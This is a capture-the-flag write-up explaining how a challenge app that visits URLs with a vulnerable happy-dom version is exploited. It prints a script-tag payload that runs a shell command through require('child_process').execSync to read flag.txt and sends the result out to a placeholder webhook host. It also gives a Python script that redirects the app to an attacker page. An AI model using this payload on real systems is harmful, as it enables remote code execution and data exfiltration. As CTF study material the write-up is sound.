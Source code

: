 This application uses `happy-dom` to visit URLs. There is a vulnerability in the application, and the challenge description indicates that it was created a month ago. Based on the description, we can infer that the application uses a vulnerable version of `happy-dom`. Refer to the vulnerability report here: [https://github.com/capricorn86/happy-dom/issues/1585](https://github.com/capricorn86/happy-dom/issues/1585).

We can host the following script as `index.html`:

```html
<script src="https://WEBHOOK.URL/'+require('child_process').execSync('cat$IFS/flag.txt')+'"></script>
```

In this application, the `path` variable is passed to `new URL(url, base)`. By using `//` in the `base` parameter, you can override the host and redirect the application to visit any desired website..

```js
visit_url = new URL(path[i], easy_challenge);
```

Here’s a Python script to exploit the vulnerability:

```python
import requests

req = requests.post(
    "https://guessy-ctf-solver.wwctf.com/hack", 
    json={
        "url": "https://fake-easy-chall.wwctf.com", 
        "path": ["//html-pages.abdulhaq.me/new"]
    }
)
print(req.text)
```

